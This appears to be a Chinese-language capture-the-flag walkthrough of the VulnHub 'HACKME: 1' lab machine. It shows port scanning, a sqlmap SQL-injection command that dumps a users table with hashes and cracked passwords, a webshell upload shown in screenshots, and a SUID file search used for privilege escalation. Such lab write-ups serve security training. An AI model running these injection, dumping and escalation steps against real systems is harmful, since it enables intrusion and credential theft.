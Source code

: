 # HACKME: 1

> https://download.vulnhub.com/hackme/hackme.ova

靶场IP：`192.168.32.209`

扫描对外端口服务

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p 1-65535 -sV  192.168.32.209                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 02:43 EDT
Nmap scan report for 192.168.32.209
Host is up (0.00090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.34 ((Ubuntu))
MAC Address: 00:0C:29:E1:C2:D8 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.35 seconds

```

访问80端口

![image-20220907144655823](../../.gitbook/assets/image-20220907144655823.png)

注册一个测试账号进行登录

![image-20220907145457243](../../.gitbook/assets/image-20220907145457243.png)

输入框存在SQL注入漏洞

```
POST /welcome.php HTTP/1.1
Host: 192.168.32.209
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Origin: http://192.168.32.209
Connection: close
Referer: http://192.168.32.209/welcome.php
Cookie: PHPSESSID=d82p89ea990dqrg60r28uao5al
Upgrade-Insecure-Requests: 1

search=1

```

使用sqlmap进行注入，找到`superadmin/Uncrackable`

```
┌──(root💀kali)-[/tmp]
└─# sqlmap -r 1.txt  --level 5 --risk 3 --dbms=mysql -p search  -D webapphacking -T users --dump

Database: webapphacking                                                                                                                                                                                                                     
Table: users
[7 entries]
+----+--------------+------------+------------------+---------------------------------------------+
| id | name         | user       | address          | pasword                                     |
+----+--------------+------------+------------------+---------------------------------------------+
| 1  | David        | user1      | Newton Circles   | 5d41402abc4b2a76b9719d911017c592 (hello)    |
| 2  | Beckham      | user2      | Kensington       | 6269c4f71a55b24bad0f0267d9be5508 (commando) |
| 3  | anonymous    | user3      | anonymous        | 0f359740bd1cda994f8b55330c86d845 (p@ssw0rd) |
| 10 | testismyname | test       | testaddress      | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
| 11 | superadmin   | superadmin | superadmin       | 2386acb2cf356944177746fc92523983            |
| 12 | test1        | test1      | test1            | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
| 13 | sectest      | sectest    | sectest@test.com | e10adc3949ba59abbe56e057f20f883e (123456)   |
+----+--------------+------------+------------------+---------------------------------------------+

```

![image-20220907145959012](../../.gitbook/assets/image-20220907145959012.png)

使用superadmin用户登录，发现有上传页面。

![image-20220907150038388](../../.gitbook/assets/image-20220907150038388.png)

尝试上传webshell

![image-20220907150211270](../../.gitbook/assets/image-20220907150211270.png)

访问`/uploads`目录就可以看到已经上传成功。

![image-20220907150240018](../../.gitbook/assets/image-20220907150240018.png)

查找suid文件

```
www-data@hackme:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/snap/core20/1611/usr/bin/chfn
/snap/core20/1611/usr/bin/chsh
/snap/core20/1611/usr/bin/gpasswd
/snap/core20/1611/usr/bin/mount
/snap/core20/1611/usr/bin/newgrp
/snap/core20/1611/usr/bin/passwd
/snap/core20/1611/usr/bin/su
/snap/core20/1611/usr/bin/sudo
/snap/core20/1611/usr/bin/umount
/snap/core20/1611/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1611/usr/lib/openssh/ssh-keysign
/snap/core/13425/bin/mount
/snap/core/13425/bin/ping
/snap/core/13425/bin/ping6
/snap/core/13425/bin/su
/snap/core/13425/bin/umount
/snap/core/13425/usr/bin/chfn
/snap/core/13425/usr/bin/chsh
/snap/core/13425/usr/bin/gpasswd
/snap/core/13425/usr/bin/newgrp
/snap/core/13425/usr/bin/passwd
/snap/core/13425/usr/bin/sudo
/snap/core/13425/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/13425/usr/lib/openssh/ssh-keysign
/snap/core/13425/usr/lib/snapd/snap-confine
/snap/core/13425/usr/sbin/pppd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/bin/sudo
/home/legacy/touchmenot
/bin/mount
/bin/umount
/bin/ping
/bin/ntfs-3g
/bin/su
/bin/fusermount

```

直接提权成功。

![image-20230208145931450](../../.gitbook/assets/image-20230208145931450.png)
